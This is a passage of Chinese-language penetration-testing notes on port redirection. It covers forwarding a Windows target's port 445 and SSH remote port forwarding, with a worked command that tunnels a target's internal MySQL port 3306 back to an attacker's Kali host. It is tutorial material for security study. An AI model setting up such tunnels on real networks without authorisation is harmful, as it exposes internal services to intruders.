 ![image-20200528211844405](assets/11.密码攻击.assets/image-20200528211844405.png)

完成后，我们只要对本机445端口进行操作，就如同操作目标winServer的445端口。

![image-20200528211959377](assets/11.密码攻击.assets/image-20200528211959377.png)

### SSH远程端口转发

SSH中的远程端口转发功能可以看作是本地端口转发的逆向功能，因为在连接的远程端打开了一个端口，并且发送到该端口的流量被转发到了本地计算机上的端口（启动该端口的计算机SSH客户端）。

![image-20200601200909656](assets/11.端口重定向和隧道.assets/image-20200601200909656.png)

```bash
ssh -N（不指定命令） -R（远程端口转发） <kali的ip>:<kali绑定的空闲端口>:<目标机器的本地IP 127.0.0.1>：<我们需要的目标端口3306> <kali的ssh凭证>
ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```
